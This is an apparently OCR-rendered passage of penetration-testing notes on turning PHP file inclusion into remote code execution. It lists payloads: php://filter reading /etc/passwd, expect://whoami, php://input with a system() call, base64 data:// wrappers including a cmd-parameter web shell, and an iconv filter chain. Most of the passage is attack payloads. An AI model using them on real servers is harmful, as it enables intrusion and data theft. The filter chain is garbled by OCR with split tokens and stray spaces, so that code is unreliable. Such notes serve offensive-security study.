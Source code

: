 We can use the following wrapper to rotate each character 13 positions:

```
php://filter/read=string.rot13/resource=/etc/passwd
```

We can perhaps execute commands at the system level with the following wrapper:

```
expect://whoami
```

If we change the request from *GET* to *POST* method we could pass data to it with this wrapper and start an RCE:

```
POST /?filename=php://input
```

And we can send as data the command we want:

```php
<?php system("whoami"); ?>
```

If we change the petition as *GET* again we can obtain *RCE* too:

```php
// We convert the command into base64
echo '<?php system("whoami"); ?>' | base64; echo

// We use the base64 command here
data://text/plain;base64,{CODE_IN_BASE}

// We can also handle it with 'cmd'
echo '<?php system($_GET["cmd"]); ?>' | base64; echo
data://text/plain;base64,{CODE_IN_BASE}&cmd=whoami
```

### Filter Chains

We have to keep in mind that PHP needs to convert the data from UTF8 to UTF7 so that the '=' does not cause conflict and error:

```bash
# UTF8.UTF7 is used to convert from UTF8 to UTF7
php -r "echo file_get_contents('php://filter/convert.iconv.UTF8.UTF7|convert.base64-decode/resource=/tmp/test');"; echo
```

----
> If you don't know which file to point to on a machine, point to *php://temp*
----

To achieve the desired effect and to be able to execute an *RCE* we must introduce characters to the left of the base64 string playing with the encode and decode, manually:

```php
// In this case we are introducing 'Hola'
php://filter/convert.iconv.UTF8. CSIS02022KR | convert.iconv.UTF8.UTF7 | convert.iconv.CP1046.UTF32 | convert.iconv.L6.UCS-2 | convert.ic onv.UTF-16LE.T.61-8BIT | convert.iconv.865.UCS-4LE | convert.base64-decode | convert.base64-encode | convert.iconv.UTF8.UTF7 | convert. iconv.CP-AR.UTF16 | convert.iconv.8859_4.BIG5HKSCS | convert.ic onv.MSCP1361.UTF-32LE | convert.iconv.IBM932.UCS-2BE | convert.base64-decode | convert.base64-encode | convert.iconv.UTF8.UTF7 | convert.iconv.JS. UNICODE | convert.iconv.L4.UCS2 | convert.iconv.UCS- 4LE.OSF05010001 | convert.iconv. IBM912.UTF-16LE | convert.base64-decode | convert.base64-encode | convert.iconv.UTF8.UTF7 | convert.iconv.CP1046.UTF16 | convert.iconv. IS06937. SHIFT_JISX0213 | conver t.base64-decode | convert.base64-encode | convert.iconv.UTF8.UTF7/resource=php://temp
```
